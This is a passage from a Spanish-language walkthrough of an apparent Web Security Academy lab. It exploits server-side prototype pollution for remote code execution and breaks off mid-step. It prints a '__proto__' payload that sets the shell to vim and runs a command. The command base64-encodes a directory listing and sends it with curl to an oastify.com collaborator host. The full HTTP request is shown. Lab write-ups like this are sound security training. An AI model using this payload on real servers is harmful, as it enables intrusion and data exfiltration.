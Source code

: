 Gracias a lo anterior, sabemos que tenemos la posibilidad de utilizar el RCE:

Asi que para resolver el ejercicio utilizaremos el siguiente payload que codifica la salida del comando ls en base64 y luego la envia al collaborator:

{% code overflow="wrap" %}
```json
"input":":! ls /home/carlos | base64 | curl -d @- https://79ehevoergt9416xsqvym443suymmfa4.oastify.com\n"
```
{% endcode %}

Luego de enviar la peticion:

```bash
POST /my-account/change-address HTTP/2
Host: 0a7e008b0499e6c481688ab4000900af.web-security-academy.net
Cookie: session=4tH7NKRjQmuej0xm7k7XQpweZtk40bS7
Content-Length: 317
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://0a7e008b0499e6c481688ab4000900af.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a7e008b0499e6c481688ab4000900af.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"4tH7NKRjQmuej0xm7k7XQpweZtk40bS7","__proto__": {
    "shell":"vim",
    "input":":! ls /home/carlos | base64 | curl -d @- https://79ehevoergt9416xsqvym443suymmfa4.oastify.com\n"
}}
```

Y luego de enviar la peticion del button:
